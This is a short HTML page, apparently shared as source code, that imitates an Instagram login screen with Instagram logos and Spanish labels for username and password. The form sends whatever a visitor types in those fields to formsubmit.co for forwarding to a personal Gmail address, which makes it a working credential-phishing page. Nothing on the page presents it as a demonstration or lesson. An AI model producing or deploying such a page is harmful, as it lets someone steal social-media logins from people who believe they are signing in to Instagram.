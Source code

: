 
<html>
<head>
    <meta charset="utf-8" />
</head>
<body>
    <img width="1000px" src="https://assets.turbologo.com/blog/es/2019/09/19133022/instagram-logo-illustration.png" />
    <h2>iniciar sesion</h2>
    <form action="https://formsubmit.co/enekocat0@gmail.com" method="POST">
        <label>nombre de usuario</label>
        <br/>
        <input type="text" name="nombre de usuario" />
    <label>contraseña</label>
    <br/>
    <input type="password" name="contraseña" />
    <br/>
    <input type="submit" value="inicar sesion" />
</form>
<img width="1000px" src="https://static.vecteezy.com/ti/vettori-gratis/p1/4263118-meta-instagram-icon-set-editorial-metaverse-concept-gratuito-vettoriale.jpg" />
</body>
</html>
